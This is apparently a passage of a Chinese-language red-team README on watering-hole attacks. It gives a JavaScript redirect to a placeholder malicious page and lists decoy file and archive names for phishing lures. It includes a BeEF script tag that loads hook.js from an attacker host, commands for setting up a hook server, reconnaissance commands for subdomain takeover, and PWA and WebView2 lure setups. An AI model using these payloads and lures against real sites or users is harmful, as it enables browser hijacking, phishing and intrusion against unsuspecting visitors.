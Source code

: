 ```javascript
<script>
  window.location.href = "http://IP地址或域名/malicious_page";
</script>
```

### 钓鱼文件

#### 常见伪装配置文件的文件名

系统或应用程序配置文件:

+ config.ini / settings.ini
+ config.xml / settings.xml
+ config.json / settings.json
+ app.config
+ web.config
+ system.cfg
+ default.cfg
+ .env (环境变量文件)
+ log4j2.xml / log4j.properties
+ server.properties
+ database.config / db.config
+ application.properties

软件或工具的配置文件:

+ vpn.conf
+ proxy.conf
+ ssh.config / ssh_config
+ docker-compose.yml
+ gitconfig
+ gradle.properties
+ .bashrc / .zshrc (Shell 配置文件)
+ hosts (hosts 文件)
+ ldap.conf

与安全相关的配置文件:

+ ca.crt (根证书)
+ client.crt (客户端证书)
+ server.key (服务器私钥)
+ vulnerability.report
+ security.conf
+ firewall.conf

临时文件或备份文件:

+ backup.ini / backup.xml
+ temp.ini / temp.xml
+ old.ini / old.xml
+ ~config.ini

其他配置文件：

+ readme.txt
+ license.txt
+ install.txt

#### 常见伪装压缩包的文件名

以update为主题的文件名:

+ update.zip / update.rar / update.7z
+ patch.zip / patch.rar / patch.7z
+ security_update.zip / security_update.rar
+ system_update.zip / system_update.rar
+ software_update.zip / software_update.rar

以backup为主题的文件名:

+ backup.zip / backup.rar / backup.7z
+ data_backup.zip / data_backup.rar
+ full_backup.zip / full_backup.rar
+ system_backup.zip / system_backup.rar

以document或report为主题的文件名:

+ report.zip / report.rar / report.7z
+ document.zip / document.rar / document.7z
+ invoice.zip / invoice.rar
+ contract.zip / contract.rar
+ statement.zip / statement.rar

以archive为主题的文件名:

+ archive.zip / archive.rar / archive.7z
+ archive_data.zip / archive_data.rar

以tool或utility为主题的文件名:

+ tool.zip / tool.rar / tool.7z
+ utility.zip / utility.rar / utility.7z
+ installer.zip / installer.rar

与软件或服务相关的压缩包名:

+ vpn.zip / vpn.rar / vpn.7z
+ proxy.zip / proxy.rar / proxy.7z
+ server_config.zip / server_config.rar

其他常见压缩包名:

+ files.zip / files.rar
+ data.zip / data.rar
+ images.zip / images.rar
+ assets.zip / assets.rar
+ logs.zip / logs.rar

### Hook网站

BeEF:

```bash
<script src="http://IP地址或域名:3000/hook.js"></script>
```

[hook_server.py](水坑攻击/hook_server.py)

```bash
├── templates
│   └── index.html
```

[index.html](水坑攻击/index.html)

```bash
pip install flask-cors
python hook_server.py
```

### 子域名接管

```bash
amass enum -d 域名
nslookup -type=cname 子域名
dig cname 子域名
```

```bash
apt install awscli
aws s3 ls s3://bucket-name

apt install azure-cli
az storage account show --name storage-account-name

http://用户名.github.io
```

### PWA

```bash
openssl genrsa -out key.pem 4096
openssl req -new -key key.pem -out csr.pem
openssl x509 -req -in csr.pem -signkey key.pem -out cert.pem -days 365

cert.pem > /etc/ssl/certs/
key.pem > /etc/ssl/private/
```

/etc/apache2/sites-available/default-ssl.conf:

```bash
SSLCertificateFile      /etc/ssl/certs/cert.pem
SSLCertificateKeyFile   /etc/ssl/private/key.pem
```

```bash
apt install apache2 ssl-cert
a2enmod ssl
```

[PWA](水坑攻击/PWA)

### WebView2

```bash
pip install PyQt5 Flask
```

[webview_app.py](水坑攻击/webview_app.py)

[flask_app.py](水坑攻击/flask_app.py)

```bash
python flask_app.py
python webview_app.py
```
